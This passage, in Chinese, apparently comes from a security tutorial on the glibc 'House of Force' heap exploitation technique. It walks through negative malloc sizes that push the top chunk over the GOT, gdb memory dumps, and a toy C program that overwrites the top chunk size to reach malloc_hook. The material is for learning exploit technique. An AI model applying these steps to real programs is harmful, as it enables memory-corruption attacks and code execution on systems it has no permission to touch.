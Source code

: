 一方面，我们需要绕过 REQUEST_OUT_OF_RANGE(req) 这个检测，即我们传给 malloc 的值在负数范围内，不得大于 -2 * MINSIZE，这个一般情况下都是可以满足的。

另一方面，在满足对应的约束后，我们需要使得 `request2size`正好转换为对应的大小，也就是说，我们需要使得 ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK 恰好为-4112。首先，很显然，-4112 是 chunk 对齐的，那么我们只需要将其分别减去 SIZE_SZ，MALLOC_ALIGN_MASK 就可以得到对应的需要申请的值。其实我们这里只需要减 SIZE_SZ 就可以了，因为多减的 MALLOC_ALIGN_MASK 最后还会被对齐掉。而**如果 -4112 不是 MALLOC_ALIGN 的时候，我们就需要多减一些了。当然，我们最好使得分配之后得到的 chunk 也是对齐的，因为在释放一个 chunk 的时候，会进行对齐检查。**

因此，我们当调用`malloc(-4120)`之后，我们可以观察到 top chunk 被抬高到我们想要的位置

```
0x7ffff7dd1b20 <main_arena>:\	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000601010 <=== 可以观察到top chunk被抬高
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们分配的块就会出现在 0x601010+0x10 的位置，也就是 0x601020 可以更改 got 表中的内容了。

但是需要注意的是，在被抬高的同时，malloc@got 附近的内容也会被修改。

```c
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
```

## 简单示例2
在上一个示例中，我们演示了通过 HOF 使得 top chunk 的指针减小来修改位于其上面(低地址)的got表中的内容，
但是 HOF 其实也可以使得 top chunk 指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```
我们可以看到程序代码与简单示例1基本相同，除了第二次 malloc 的 size 有所不同。
这次我们的目标是 malloc_hook，我们知道 malloc_hook 是位于 libc.so 里的全局变量值，首先查看内存布局

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```